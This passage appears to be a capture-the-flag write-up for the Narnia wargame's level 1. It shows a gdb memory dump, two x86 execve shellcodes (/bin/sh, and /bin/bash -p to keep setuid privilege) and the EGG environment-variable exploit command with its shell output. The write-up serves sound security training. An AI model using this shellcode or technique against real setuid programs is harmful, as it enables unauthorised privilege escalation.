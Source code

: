 ```
0xffffdde0:	0x42424242	0x53004242	0x4c564c48	0x5800313d
0xffffddf0:	0x535f4744	0x49535345	0x495f4e4f	0x30363d44
0xffffde00:	0x30393036	0x47445800	0x4e55525f	0x454d4954
0xffffde10:	0x5249445f	0x75722f3d	0x73752f6e	0x312f7265
0xffffde20:	0x31303034	0x48535300	0x494c435f	0x3d544e45
0xffffde30:	0x2e333031	0x2e343531	0x2e323032	0x20373131
0xffffde40:	0x39323733
```

`BBBBBB` refers `4242424242` see its is in first place  , if we replace those with shellcode , callback function will give a shell with narnia2 suid privilege.  so exit from gdb

```
narnia1@gibson:/narnia$ uname -a
Linux gibson 6.8.0-1009-aws #9-Ubuntu SMP Fri May 17 14:39:23 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

https://shell-storm.org/shellcode/index.html , this is a shellcode database for all kind of architecture.

https://shell-storm.org/shellcode/files/shellcode-585.html ,  this is shellcode refers just `bin/sh`

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

```
narnia1@gibson:/narnia$ EGG=`printf "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"` ./narnia1
Trying to execute EGG!
$ whoami
narnia1
$ 
```

As i already said that , this shellcode just refers `bin/sh` , it is not maintain effective `uid` `gid` , instead it reset those privilege to current user

`bash -p`  -p  Turned on whenever the real and effective user ids do not match.
            Disables processing of the $ENV file and importing of shell
            functions.  Turning this option off causes the effective uid and
            gid to be set to the real uid and gid.

this shellcode exactly refers above flag https://shell-storm.org/shellcode/files/shellcode-606.html  or https://shell-storm.org/shellcode/files/shellcode-607.html

Linux x86 - `execve("/bin/bash", ["/bin/bash", "-p"], NULL)` - 33 bytes
```
 "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
 "\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
 "\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
 "\x51\x53\x89\xe1\xcd\x80
```
